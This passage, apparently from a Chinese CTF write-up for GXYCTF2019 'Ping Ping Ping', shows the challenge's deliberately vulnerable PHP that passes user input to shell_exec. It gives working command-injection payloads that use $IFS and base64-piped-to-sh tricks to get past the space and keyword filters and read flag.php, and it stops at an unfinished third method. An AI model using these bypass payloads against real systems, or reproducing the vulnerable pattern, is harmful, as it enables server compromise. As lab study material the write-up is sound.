 找到flag.

## 0xA.[GXYCTF2019]Ping Ping Ping

打开后发现无论是cat flag.php还是index.php都打不开，经过测试发现可能是过滤了空格。

>   1.  ${IFS}替换
>   2.  \$IFS\$1替换
>   3.  ${IFS替换
>   4.  %20替换
>   5.  <和<>重定向符替换
>   6.  %09替换

$IFS是shell中的一个变量，

```php
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "<pre>";
  print_r($a);
}

?>
```

可以看到确实过滤了很多东西

### 1)拼接

```
?ip=1;a=g;cat$IFS$1fla$a.php;
```

### 2)base64

```
echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
```

其中Y2F0IGZsYWcucGhw是cat flag.php的base64编码，之后用base64 -d命令解码

### 3)内敛绕过(NB)
